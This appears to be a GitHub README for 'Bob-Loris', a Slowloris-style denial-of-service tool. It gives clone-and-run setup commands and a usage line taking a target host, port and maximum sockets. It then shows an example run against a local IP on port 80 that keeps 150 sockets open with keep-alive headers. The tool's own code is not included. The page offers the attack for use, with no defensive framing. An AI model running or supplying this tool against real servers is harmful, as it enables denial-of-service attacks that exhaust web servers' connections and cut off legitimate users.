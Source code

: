 # Bob-Loris

**Setup**

       $ git clone https://github.com/LukeBob/Bob-loris.git
 
        $ cd Bob-loris
 
        $ chmod 755 Bob-loris.py
 
        $ ./Bob-loris.py -H <host> -P <port> -M <max-sockets Default=150>
    
**Example**
          
        $ ./Bob-loris.py -H 192.168.1.160 -P 80 -M 149          

           ____        _       _            _     
          |  _ \      | |     | |          (_)    
          | |_) | ___ | |__   | | ___  _ __ _ ___ 
          |  _ < / _ \| '_ \  | |/ _ \| '__| / __|
          | |_) | (_) | |_) | | | (_) | |  | \__ \
          |____/ \___/|_.__/  |_|\___/|_|  |_|___/
                                         
                                         
          
         max socket option too low. using Default 150

	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150

 
